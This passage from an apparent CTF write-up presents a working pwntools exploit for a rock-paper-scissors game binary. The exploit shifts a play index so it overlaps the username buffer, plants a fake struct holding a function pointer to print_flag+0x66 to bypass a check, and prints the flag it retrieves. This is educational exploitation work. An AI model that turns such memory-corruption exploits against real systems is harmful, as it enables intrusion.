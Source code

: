 Then we'll increment `game_ctx->current_play` to an _appropriate_ value, based on `sizeof(struct play) == 24` and `game_ctx->player_name == game_ctx->array_of_plays+0xd018`:

```python
def skip(n: int):
    choose(3)
    r.recvuntil('[  ]\b\b\b')
    r.sendline(str(n))
OFFSET_TO_NAME = 0xd018
SIZEOF_PLAY = 24
while current_play < OFFSET_TO_NAME//SIZEOF_PLAY:
    toskip = min([255, (OFFSET_TO_NAME-current_play*SIZEOF_PLAY)//SIZEOF_PLAY+1])
    current_play += toskip
    skip(toskip)
```

We'll follow that up by inserting the desired fake `struct play` inside `player_name`:

```python
choose(5) # change username
r.recvuntil('new username: ')
fakeplay = p32(1) + b'a'*10 + pack(context.binary.symbols['print_flag']+0x66) + pack(1) # no idea where the b'a'+10 comes from.
'''struct play { //sizeof 24
    uint32_t id = 1;
    void (* animation_function)(enum handsigns, enum handsigns) = print_flag+0x66;
    enum handsigns handsign = 1;
};'''
r.sendline(b'a'*(current_play*SIZEOF_PLAY-OFFSET_TO_NAME)+fakeplay)
```

Over here, the fake `play` structure has `animation_function` set to `print_flag+0x66`. The `+0x66` is there to bypass the `POINTS_TO_PRINT_FLAG` check in `print_flag()`.

With `->current_play` and `->player_name` in check, we only need to call `current_play->animation_function` to win.

```c
        // if ascii art enabled, call function ptr
        if(game_ctx->ascii_art_enabled)
        {
            current_play.animation_function(current_play.handsign, handsig_input);
        }
```

To get to this part of the code, we only need to

```python
choose(4) # enable ascii art
choose(2) # start the next round
r.recvuntil('[ ]\b\b')
r.sendline('1') # pick any option
print(r.recvall()) # get flag
```

```python
[+] Opening connection to cop.ichsa.ctf.today on port 8011: Done
[+] Receiving all data: Done (151B)
[*] Closed connection to cop.ichsa.ctf.today port 8011
b'| Computer chosed: 1\n| You chosed: 1\n| It is a tie\n| Point goes to: no one\n| The flag is:ICHSA_CTF{exploitation_with_cop_is_why_better_than_any_crime}\n'
```

